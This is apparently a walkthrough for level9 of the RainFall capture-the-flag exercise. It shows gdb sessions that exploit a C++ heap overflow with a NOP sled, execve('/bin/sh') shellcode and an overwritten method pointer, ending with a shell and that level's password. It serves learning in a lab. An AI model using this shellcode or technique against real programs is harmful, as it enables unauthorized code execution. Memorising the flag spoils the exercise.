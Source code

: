 # Walkthrough level9

This program is in c++. We have to [understand each plt function](https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int) used.  
For example :  
_Znwj --> new  
_Znaj --> new []  

To understand c++ function we have used [name mangling](https://en.wikipedia.org/wiki/Name_mangling#C++).
For example:  
_ZN4Test10methodNamei --> void Test::methodName(int n);   

We have a class named "N" in wich there are an operator +, a buffer, an int, a constructor and a set method "setAnnotation".
We try to run program with param "aaaa".  
The first N instance allocated is at $esp+0x14 address. So we can look at the heap. We can see which buffer start.  

| Address  | Value    |
|----------|----------|
|0x804a008 |this      |
|\*this    |operator +|
|\*this +4 |buffer    |
|\*this+104|int       |

``` bash
(gdb) run aaaa
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 aaaa

Breakpoint 2, 0x0804867c in main ()
(gdb) x/xw $esp+0x14
0xbffff724:	0x0804a008
(gdb) x/32xw 0x0804a008
0x804a008:	0x08048848	0x61616161	0x00000000	0x00000000
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a058:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a068:	0x00000000	0x00000000	0x00000005	0x00000071
0x804a078:	0x08048848	0x00000000	0x00000000	0x00000000
```

We have try to erase operator method of 2nd instance with another address.   
We don't have function who can execute "/bin/sh". So we have decided to write shell code in first instance buffer.   

``` bash
(gdb) run $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level9/level9 $(python -c 'print "\x90" * 80 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')

Breakpoint 2, 0x0804867c in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Breakpoint 1, 0x08048693 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0x90909090 in ?? ()

(gdb) x/32xw 0x0804a008
0x804a008:	0x08048848	0x90909090	0x90909090	0x90909090
0x804a018:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a028:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a038:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a048:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a058:	0x90909090	0x6850c031	0x68732f2f	0x69622f68
0x804a068:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000
```  
We have a Segmentation fault because it try to dereference 0x0804a00c who contains 0x90909090 address.  
So we want to modify this value to a valid address in the NOP area. We have choose `0x804a008 + 8 = 0x804a010`

``` bash
(gdb) run $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 76 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')

(gdb) x/32xw 0x0804a008
0x804a008:	0x08048848	0x0804a010	0x90909090	0x90909090
0x804a018:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a028:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a038:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a048:	0x90909090	0x90909090	0x90909090	0x90909090
0x804a058:	0x90909090	0x6850c031	0x68732f2f	0x69622f68
0x804a068:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
0x804a078:	0x0804a00c	0x00000000	0x00000000	0x00000000

level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x90" * 76 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
